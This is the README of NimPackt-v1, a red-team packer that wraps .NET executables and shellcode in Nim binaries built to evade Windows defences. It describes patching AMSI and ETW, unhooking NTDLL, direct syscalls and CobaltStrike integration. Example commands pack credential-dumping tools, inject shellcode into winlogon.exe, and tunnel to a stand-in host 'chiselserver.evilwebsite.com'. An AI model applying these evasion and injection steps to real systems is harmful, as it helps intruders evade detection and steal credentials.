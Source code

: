 ![NimPackt](assets/Nimpackt-Logo-Blacktext.png)

# A Nim-based packer for .NET executables and raw shellcode

*By **Cas van Cooten** ([@chvancooten](https://twitter.com/chvancooten))*

*With special thanks to Marcello Salvati ([@byt3bl33der](https://twitter.com/byt3bl33d3r)) and Fabian Mosch ([@S3cur3Th1sSh1t](https://twitter.com/ShitSecure))*

## Description

**Update:** _NimPackt-v1 is among the worst code I have ever written (I was just starting out learning Nim). Because of this, I started on a full rewrite of NimPackt, dubbed 'NimPackt-NG' (currently still private). With this re-write, I decided to open-source the old branch ("NimPackt-v1"). As such, this branch is no longer maintained and comes without any form of warranty or support. PRs are always welcome, of course :)_

NimPackt is a Nim-based packer for .NET (C#) executables and shellcode targeting Windows. It automatically wraps the payload in a Nim binary that is compiled to Native C and as such harder to detect and reverse engineer. There are two main execution methods: 
- `Execute-Assembly` re-packs a .NET executable and runs it, optionally applying evasive measures such as API unhooking, AMSI patching, or disabling ETW.
- `Shinject` takes raw a .bin file with raw, position-independent shellcode and executes it locally or in a remote process, optionally using direct syscalls to trigger the shellcode or patching API hooks to evade EDR.

Currently, NimPackt has the following features.

- Uses static syscalls to patch execute to evade EDR
- Unhooks user-mode APIs for spawned thread by refreshing `NTDLL.dll` using [ShellyCoat](https://github.com/slaeryan/AQUARMOURY/tree/master/Shellycoat)
- Patches Event Tracing for Windows (ETW) 
- Patches the Anti-Malware Scan Interface (AMSI)
- AES-encrypts payload with random key to prevent static analysis or fingerprinting
- Compiles to `exe` or `dll`
- Supports cross-platform compilation (from both Linux and Windows)
- Integrates with CobaltStrike for ezpz payload generation 😎

A great source for C#-based binaries for offensive tooling can be found [here](https://github.com/Flangvik/SharpCollection). It is highly recommended to compile the C# binaries yourself. Even though embedded binaries are encrypted, you should obfuscate sensitive binaries (such as Mimikatz) to lower the risk of detection.

## Installation

> If you are having issues compiling the binary with Syscalls, try downgrading your GCC to version 8.1.0 (especially on Windows). ALWAYS test generated payloads!

On **Linux**, simply install the required packages and use the Nimble package installer to install the required packages and Python libraries.

```
sudo apt install -y python3 mingw-w64 nim
pip3 install pycryptodome argparse
nimble install winim nimcrypto
```

On **Windows**, execute the Nim installer from [here](https://nim-lang.org/install_windows.html). Make sure to install `mingw` and set the path values correctly using the provided `finish.exe` utility. If you don't have Python3 install that, then install the required packages as follows.

```
nimble install winim nimcrypto
pip3 install pycryptodome argparse
```

### CobaltStrike Plugin 

To install the CobaltStrike plugin, select `Cobalt Strike` -> `Script Manager` from the menu bar, and select `Load`. Make sure to load the `.cna` file from it's original location, otherwise it won't be able to find the NimPackt script files!

![NimPackt](assets/cna_plugin.png)


## Usage

```
usage: NimPackt.py [-h] -e EXECUTIONMODE -i INPUTFILE [-a ARGUMENTS] [-na] [-ne] [-r]
                   [-t INJECTTARGET] [-E] [-o OUTPUTFILE] [-nu] [-ns] [-f FILETYPE] [-s] [-32] [-S]
                   [-d] [-v] [-V]

required arguments:
  -e EXECUTIONMODE, --executionmode EXECUTIONMODE
                        Execution mode of the packer. Supports "execute-assembly" or "shinject"
  -i INPUTFILE, --inputfile INPUTFILE
                        C# .NET binary executable (.exe) or shellcode (.bin) to wrap

execute-assembly arguments:
  -a ARGUMENTS, --arguments ARGUMENTS
                        Arguments to "bake into" the wrapped binary, or "PASSTHRU" to accept run-
                        time arguments (default)
  -na, --nopatchamsi    Do NOT patch (disable) the Anti-Malware Scan Interface (AMSI)
  -ne, --nodisableetw   Do NOT disable Event Tracing for Windows (ETW)

shinject arguments:
  -r, --remote          Inject shellcode into remote process (default false)
  -t INJECTTARGET, --target INJECTTARGET
                        Remote thread targeted for remote process injection
  -E, --existing        Remote inject into existing process rather than a newly spawned one (default
                        false, implies -r) (WARNING: VOLATILE)

other arguments:
  -o OUTPUTFILE, --outfile OUTPUTFILE
                        Filename of the output file (e.g. "LegitBinary"). Specify WITHOUT extension
                        or path. This property will be stored in the output binary as the original
                        filename
  -nu, --nounhook       Do NOT unhook user-mode API hooks in the target process by loading a fresh
                        NTDLL.dll
  -ns, --nosyscalls     Do NOT use direct syscalls (Windows generation 7-10) instead of high-level
                        APIs to evade EDR
  -f FILETYPE, --filetype FILETYPE
                        Filetype to compile ("exe" or "dll", default: "exe")
  -s, --sleep           Sleep for approx. 30 seconds by calculating primes
  -32, --32bit          Compile in 32-bit mode (untested)
  -S, --showConsole     Show a console window with the app's output when running
  -d, --debug           Enable debug mode (retains .nim source file in output folder)
  -v, --verbose         Print debug messages of the wrapped binary at runtime
  -V, --version         show program's version number and exit
```

**Examples:**

```bash
# Pack SharpKatz to accept arguments at runtime, patching NTDLL hooks, AMSI, and ETW while printing verbose messages to a visible console at runtime
python3 ./NimPackt.py -e execute-assembly -i bins/SharpKatz-x64.exe -S -v

# Pack Seatbelt as a DLL file with baked-in arguments (note: write to outfile because stdout is not available for DLLs)
python3 ./NimPackt.py -f dll -e execute-assembly -i Seatbelt.exe -a "-group=all -outputfile=c:\users\public\downloads\sb.txt"

# Pack SharpChisel with a built-in ChiselChief connection string, do not unhook, patch AMSI, or disable ETW, hide the application window at runtime
python3 NimPackt.py -nu -na -ne -e execute-assembly -i bins/SharpChisel.exe -a 'client --keepalive 25s --max-retry-interval 25s https://chiselserver.evilwebsite.com R:10073:socks'

# Pack raw shellcode to DLL file that executes in the local thread through direct syscalls, unhooking NTDLL as well
# Shellcode generated with 'msfvenom -p windows/x64/exec CMD=calc.exe -f raw -o /tmp/calc.bin'
python3 NimPackt.py -i calc.bin -e shinject -f dll

# Pack raw shellcode to execute in a newly spawned Calculator thread in an invisible window
python3 NimPackt.py -i calc.bin -e shinject -t "calc.exe"

# Pack raw shellcode to execute in the existing Winlogon process (first PID with name 'winlogon.exe'), do not use direct syscalls or unhook NTDLL
python3 NimPackt.py -i calc.bin -e shinject -r -E -t "winlogon.exe" -nu -ns
```

Binaries are stored in the `output` subfolder of your installation directory. Generated `dll` files can be executed as follows (entry point can be changed in the Nim template):

```powershell
rundll32 exampleShinjectNimPackt.dll,IconSrv
```